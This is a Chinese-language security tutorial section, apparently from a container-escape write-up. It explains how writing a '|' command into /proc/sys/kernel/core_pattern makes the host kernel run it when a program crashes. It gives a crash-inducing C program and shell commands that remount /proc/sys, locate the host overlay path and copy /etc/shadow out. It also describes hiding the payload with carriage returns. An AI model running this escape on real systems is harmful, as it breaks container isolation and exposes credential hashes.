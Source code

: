 
### 利用/proc/sys/kernel/core_pattern

#### core_pattern相关解释

当程序异常退出的时候会产生一个叫做core的文件，core文件会包含了程序运行时的内存，堆栈信息等，这个core文件也就是常说的coredump，/proc/sys/kernel/core_pattern用于设置coredump文件的文件名，并且当设置的第一个字符是"|"时，后续部分会被识别为需要执行的命令，具体支持的格式可以参考：[Documentation for /proc/sys/kernel/ - The Linux Kernel  documentation](https://www.kernel.org/doc/html/latest/admin-guide/sysctl/kernel.html#core-pattern)

#### 利用原理

修改/proc/sys/kernel/core_pattern内容为恶意程序地址，当有程序异常退出时内核就会根据指定地址完成对恶意程序的执行

#### EXP

会造成coredump的程序a.c，编译为a
```c
#include <stdio.h>
int main(void)  {
   int *a  = NULL;
   *a = 1;
   return 0;
}
```
还是仅以读取shaodow文件为例，其他文章经常提到的exp有个小技巧，使用了\r加空格隐藏的特性，\r在linux中的作用是将光标返回至行首，结合空格在显示的时候覆盖掉恶意内容

```shell
mount -o rw,remount /proc/sys
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo '#!/bin/bash' > /tmp/a.sh
echo "cat /etc/shadow > $host_path/shadow" >> /tmp/a.sh
chmod +x /tmp/a.sh
echo -e "|$host_path/tmp/a.sh" > /proc/sys/kernel/core_pattern
```
执行效果如下：
![](media/16423261310936/16449728593745.jpg)
